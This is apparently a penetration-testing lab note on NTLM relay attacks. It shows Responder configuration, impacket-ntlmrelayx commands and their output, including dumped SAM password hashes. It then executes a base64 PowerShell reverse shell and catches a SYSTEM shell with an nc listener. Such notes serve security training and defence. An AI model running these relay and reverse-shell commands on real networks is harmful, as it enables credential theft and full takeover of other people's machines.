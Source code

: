 * If we cannot crack the hash, we can potentially relay the captured hash to another machine using [impacket-ntlmrelayx](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py) or Responder [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py)
* First, we need to set SMB to `OFF` in our responder configuration file (`/etc/responder/Responder.conf`)

```sh
cat /etc/responder/Responder.conf | grep 'SMB ='

SMB = Off
```

```sh
impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

<SNIP>

[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server

[*] Servers started, waiting for connections

[*] SMBD-Thread-3: Connection from /ADMINISTRATOR@10.10.110.1 controlled, attacking target smb://10.10.110.146
[*] Authenticating against smb://10.10.110.146 as /ADMINISTRATOR SUCCEED
[*] SMBD-Thread-3: Connection from /ADMINISTRATOR@10.10.110.1 controlled, but there are no more targets left!
[*] SMBD-Thread-5: Connection from /ADMINISTRATOR@10.10.110.1 controlled, but there are no more targets left!
[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xeb0432b45874953711ad55884094e9d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:92512f2605074cfc341a7f16e5fabf08:::
demouser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
test:1001:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Done dumping SAM hashes for host: 10.10.110.146
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

* We can execute commands by adding `-c`
* We can create a PowerShell reverse shell using [https://www.revshells.com/](https://www.revshells.com/), set our machine IP address, port, and the option Powershell #3 (Base64)

```sh
impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e JABjAGwAaQBlAG4AdAAgAD0AIA<SNIP>'
```

```sh
nc -lvnp 9001

listening on [any] 9001 ...
connect to [10.10.110.133] from (UNKNOWN) [10.10.110.146] 52471

PS C:\Windows\system32> whoami;hostname

nt authority\system
WIN11BOX
```
